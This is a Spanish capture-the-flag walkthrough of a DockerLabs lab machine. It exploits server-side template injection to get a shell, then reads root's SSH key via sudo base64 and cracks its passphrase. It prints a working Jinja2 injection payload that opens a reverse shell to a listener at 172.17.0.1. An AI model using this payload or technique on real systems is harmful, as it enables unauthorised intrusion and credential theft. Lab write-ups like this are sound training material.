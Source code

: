 # 🟢 Verdejo

![IMAGEN_MAQUINA_PORTADA](./imagenes/portada.png)
> 💡 NOTA:  En mi [repositorio dockerlabs](https://github.com/damcorbor/dockerlabs/tree/main/comandos)  suelo ir dejando una lista con los comandos, herramientas y servicios que he ido usando durante los laboratorios, y los explico un poco por si alguien quiere repasarlos o usarlos como referencia.
---

## 🕵️ Reconocimiento

Empezamos con un escaneo con **nmap** para identificar puertos y servicios activos.

![nmap](./images/nmap.png)

El escaneo devuelve los puertos **22 (SSH)**, **80 (HTTP)** y **8089 (HTTP)** abiertos.

Al acceder a la IP por el puerto 80 aparece la página por defecto de Apache2, sin nada interesante ni en la vista ni en el código.

![web1](./images/web1.png)

Accediendo por el puerto **8089**, se muestra una página sencilla. No hay nada útil en el código fuente, pero al pulsar el botón, se imprime el contenido del textarea directamente en pantalla.

![web2](./images/web2.png)

Probamos si es vulnerable a **SSTI (Server Side Template Injection)**, una técnica que permite ejecutar código en el servidor si este interpreta contenido de plantillas sin validación. Para comprobarlo, insertamos una operación simple (`{{7*7}}`) en el textarea.

![SSTI](./images/SSTI.png)  
![49](./images/49.png)

Como el servidor responde con `49`, confirmamos que es vulnerable.

Aprovechando esto, lanzamos una **reverse shell** desde el textarea, mientras ponemos nuestra máquina a la escucha.

``` 
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >&/dev/tcp/172.17.0.1/3344 0>&1\'').read() }}  
```

![revershell](./images/revershell.png)

## ⬆️ Escalada de privilegios

Una vez dentro, ajustamos la shell y ejecutamos `sudo -l` para ver qué comandos podemos usar como root.

![sudo-l](./images/sudo-l.png)

Vemos que podemos ejecutar el binario **base64** como root sin necesidad de contraseña. Con **GTFOBins** verificamos que se puede usar para leer archivos.

![gtfobins](./images/gtfobins.png)

Ya que el puerto **22 (SSH)** estaba abierto, intentamos leer el contenido de `/root/.ssh/id_rsa`, copiamos la clave privada y la guardamos en nuestra máquina.

![id_rsa](./images/id_rsa.png)

La clave tiene **passphrase**, así que usamos **John the Ripper** para crackearla.

![john](./images/john.png)

Con la passphrase descubierta, ya podemos conectarnos como **root** por SSH.

![root](./images/root.png)

Máquina comprometida 🔓

## 🏁 Conclusión

En este reto hemos visto:

- Identificación de una vulnerabilidad **SSTI** en una web personalizada.
- Ejecución de una **reverse shell** desde el navegador.
- Enumeración de permisos con `sudo -l` y uso del binario **base64** para leer archivos protegidos.
- Obtención y crackeo de la clave SSH de root para acceder con control total.



